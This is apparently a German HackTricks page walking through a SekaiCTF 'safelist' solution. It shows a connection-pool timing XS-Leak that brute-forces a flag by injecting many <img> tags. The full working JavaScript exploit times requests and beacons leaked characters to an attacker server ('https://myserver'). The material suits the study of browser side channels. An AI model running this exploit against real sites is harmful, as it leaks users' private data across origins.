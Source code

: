 # Connection Pool by Destination Example

{{#include ../../banners/hacktricks-training.md}}

In [**diesem Exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) schlägt eine weitere Lösung für das Problem vor, das auf der folgenden Seite erwähnt wird:

{{#ref}}
connection-pool-by-destination-example.md
{{#endref}}

Lass uns sehen, wie dieser Exploit funktioniert:

- Der Angreifer wird eine Notiz mit so vielen **`<img`** Tags **laden** **`/js/purify.js`** wie möglich injizieren (mehr als 6, um den Ursprung zu blockieren).
- Dann wird der Angreifer die **Notiz** mit dem Index 1 **entfernen**.
- Dann wird der Angreifer \[den **Bot die Seite aufrufen lassen** mit der verbleibenden Notiz] und wird eine **Anfrage** an **`victim.com/js/purify.js`** senden, die er **zeitlich** erfassen wird.
- Wenn die Zeit **größer** ist, war die **Injektion** in der **Notiz** links, wenn die Zeit **geringer** ist, war die **Flag** dort.

> [!TIP]
> Um ehrlich zu sein, beim Lesen des Skripts habe ich einen Teil vermisst, wo der **Angreifer den Bot die Seite laden lässt, um die img-Tags auszulösen**, ich sehe nichts dergleichen im Code.
```html
<html>
<head>
<script>
const SITE_URL = "https://safelist.ctf.sekai.team/"
const PING_URL = "https://myserver"
function timeScript() {
return new Promise((resolve) => {
var x = document.createElement("script")
x.src =
"https://safelist.ctf.sekai.team/js/purify.js?" + Math.random()
var start = Date.now()
x.onerror = () => {
console.log(`Time: ${Date.now() - start}`) //Time request
resolve(Date.now() - start)
x.remove()
}
document.body.appendChild(x)
})
}

add_note = async (note) => {
let x = document.createElement("form")
x.action = SITE_URL + "create"
x.method = "POST"
x.target = "xxx"

let i = document.createElement("input")
i.type = "text"
i.name = "text"
i.value = note
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

remove_note = async (note_id) => {
let x = document.createElement("form")
x.action = SITE_URL + "remove"
x.method = "POST"
x.target = "_blank"

let i = document.createElement("input")
i.type = "text"
i.name = "index"
i.value = note_id
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms))
// }zyxwvutsrqponmlkjihgfedcba_
const alphabet = "zyxwvutsrqponmlkjihgfedcba_"
var prefix = "SEKAI{xsleakyay"
const TIMEOUT = 500
async function checkLetter(letter) {
// Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
// Depending whether we found flag's letter it will either load the images or not.
// With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
const payload =
`${prefix}${letter}` +
Array.from(Array(78))
.map((e, i) => `<img/src=/js/purify.js?${i}>`)
.join("")
await add_note(payload)
await sleep(TIMEOUT)
await timeScript()
await remove_note(1) //Now, only the note with the flag or with the injection existsh
await sleep(TIMEOUT)
const time = await timeScript() //Find out how much a request to the same origin takes
navigator.sendBeacon(PING_URL, [letter, time])
if (time > 100) {
return 1
}
return 0
}
window.onload = async () => {
navigator.sendBeacon(PING_URL, "start")
// doesnt work because we are removing flag after success.
// while(1){
for (const letter of alphabet) {
if (await checkLetter(letter)) {
prefix += letter
navigator.sendBeacon(PING_URL, prefix)
break
}
}
// }
}
</script>
</head>
<body></body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
